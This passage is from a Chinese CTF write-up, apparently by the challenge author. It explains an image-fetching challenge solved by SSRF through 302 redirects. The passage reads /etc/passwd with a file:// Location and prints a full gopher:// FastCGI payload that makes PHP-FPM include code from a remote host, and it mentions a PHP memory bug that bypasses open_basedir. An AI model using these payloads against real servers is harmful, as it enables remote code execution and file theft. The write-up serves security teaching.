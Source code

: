 這點可以使用 Keep-Alive 的方式來確保連上的是同一個 process  
之後再原本種子的破解上多加上往 STATE 的運算(共有 624 個 STATE) 應該就可以解了!

0x04 400 lalala (2 隊解)
======================

* * *

一個可以給使用者上傳圖片或是提供網址幫你抓起來上傳圖片的服務  
核心概念就是透過 302 redirect 去繞過限制實現 SSRF，並且再透過 SSRF 中的 gopher 去利用本地的 FastCGI prtocol 實現遠端代碼執行

在抓取圖片的時候可以使用 302 去做 SSRF  
(其實很多人在研究 SSRF 的時候都忽略的 302 的妙處)

在 SSRF 中可以讀檔  
(`Location: file://localhost/etc/passwd`)

會發現伺服器的架構是使用 Nginx + PHP-FPM  
其中 PHP-FPM fastcgi protocol 是以 bind port 的方式跑在本機上

在真實世界中，只要發現對方的 PHP FastCGI 是可以外連的話那就可以拿 shell  
所以使用 gopher 構造 FastCGI Protocol 訪問本機的 9001 port 就可以任意代碼執行

```
Location: gopher://127.0.0.1:9001/x%01%01i%13%00%08%00%00%00%01%00%00%00%00%00%00%01%04i%13%00%8B%00%00%0E%03REQUEST_METHODGET%0F%0FSCRIPT_FILENAME/_www/index.php%0F%16PHP_ADMIN_VALUEallow_url_include%20%3D%20On%09%26PHP_VALUEauto_prepend_file%20%3D%20http%3A//orange.tw/x%01%04i%13%00%00%00%00%01%05i%13%00%00%00%00

```

(使用 PHP_ADMIN_VALUE 把`allow_url_include`設成`on`以及新增`auto_prepend_file`到自己的網站)

這題比較有趣的另外一個點是，如果有實作過 SSRF 搭配 gopher 的話，應該會發現  
Java 中的 gopher 只能接受 0x00 - 0x7f  
libcurl 中的 gopher 只能接受 0x01 - 0xff

然後本題使用 PHP 中的`curl_exec`，會使用到 libcurl 無法使用 NULL Byte  
但是構造 FastCGI Protocol 的話非得有 NULL Byte 不可  
後來去研究了一下 libcurl 的原始碼，發現是因為寫得有點問題才不能使用 NULL Byte  
所以送了一個 commit 過去還被接受了...XD

> [https://github.com/bagder/curl/commit/5bf36ea30d38b9e00029180ddbab73cab94a2195](https://github.com/bagder/curl/commit/5bf36ea30d38b9e00029180ddbab73cab94a2195)

所以現在新版本的 libcurl / curl 應該 gopher 都可以使用 NULL Byte 了XD

0x05 500 Use-After-FLEE (1 隊解)(只有 PPP 解出)
=========================================

* * *

身為 Web 最難題XD  
許多時候，在做滲透測試時都會遇到，打進一台虛擬主機(hosting)後要去訪問同主機上的其他網站會被`open_basedir`以及`disable_functions`限制住

但 PHP 在歷史上出現過了許許多多的 Memory 上的洞，這題使用到的就是其中一個  
( 出題時 Ubuntu apt-get 預設安裝的 PHP 還是有洞，不過寫這篇文章時好像已經修了XD )

漏洞 PoC 的話可參考 80vul 的 PHP Codz Hacking  
不過只有 PoC :(
